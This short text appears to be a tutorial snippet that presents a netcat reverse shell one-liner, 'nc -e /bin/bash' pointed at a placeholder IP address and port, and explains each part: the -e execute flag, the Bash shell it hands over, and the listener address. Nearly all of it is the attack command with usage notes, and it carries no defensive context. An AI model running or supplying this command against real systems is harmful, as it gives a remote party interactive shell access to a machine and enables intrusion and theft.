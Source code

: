 ```bash
nc -e /bin/bash [IP_ADDRESS] [PORT]
```

- `-e`: This flag is used to specify that Netcat should execute a given command upon making a connection. It's important to note that this flag is not available in all versions of Netcat, particularly the traditional or "classic" version. Some systems may require using a different approach or a different version of Netcat that includes this functionality.

- `/bin/bash`: This is the command that Netcat is instructed to execute. In this case, it's invoking the Bash shell. When the connection is established, the remote user will have access to a Bash shell on the local system.

- `[IP_ADDRESS]`: This is a placeholder for the IP address of the machine that you want the reverse shell to connect to. 

- `[PORT]`: Similar to the IP address, this is a placeholder for the port number on which the controlling machine is listening. 
